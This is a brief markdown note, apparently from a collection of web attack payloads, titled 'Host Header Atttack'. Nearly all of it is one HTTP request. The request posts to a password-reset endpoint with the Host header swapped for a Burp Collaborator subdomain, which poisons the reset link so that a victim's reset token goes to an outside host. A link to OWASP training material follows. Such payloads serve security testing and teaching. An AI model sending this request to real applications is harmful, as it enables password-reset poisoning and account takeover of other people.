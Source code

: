 # Host Header Atttack
```http
POST /member/getpassword HTTP/1.1
Host: SUBDOMAIN.burpcollaborator.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.94 Safari/537.3
Content-Type: application/x-www-form-urlencoded

email=alice@livemail.com
```

https://application.security/free-application-security-training/owasp-top-10-host-header-injection
